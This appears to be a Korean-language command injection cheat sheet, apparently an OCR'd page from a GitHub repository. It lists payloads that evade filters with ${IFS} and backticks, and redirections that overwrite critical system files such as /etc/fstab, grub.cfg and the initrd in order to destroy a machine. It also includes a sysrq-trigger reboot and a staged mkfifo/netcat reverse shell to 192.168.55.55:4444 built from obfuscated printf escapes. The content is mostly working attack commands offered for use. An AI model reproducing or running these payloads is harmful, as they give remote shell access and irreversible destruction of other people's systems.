 # COMMAND INJECTION
공백 우회  
|/usr/bin/touch${IFS}/opt/test_injection  

---------------------------------------------------
and, or ,; 우회  

\`id>/opt/test_injection\`  

--------------------------------------
라다이렉션만을 이용하여 시스템 파괴  

id>/lib/modules/*/kernel/drivers/usb/storage  
id>/etc/fstab  
id>/etc/mtab  
id>/etc/inittab  
id>/boot/grub/grub.cfg  
id>/boot/initrd.img-$(uname -r)  
id>/etc/systemd/  
echo 'b'>/proc/sysrq-trigger  
<<<b>/proc/sysrq-trigger  
root일 경우만 덮어씌울수있음.  

--------------------------------------------  
;sleep 5 # 해당 명령어가 먹힐 경우 리버스tcp 가능  
;mkfifo${IFS}/opt/f;  
;printf${IFS}'nc\x20192.168.55.55\x204444'>/opt/b;  
;printf${IFS}'\x20</opt/f\x7Cbin/sh>/opt/f'>/opt/c;  
;cat${IFS}/opt/b${IFS}/opt/c>/opt/t;  
;chmod${IFS}777${IFS}/opt/t;  
;./opt/t;  

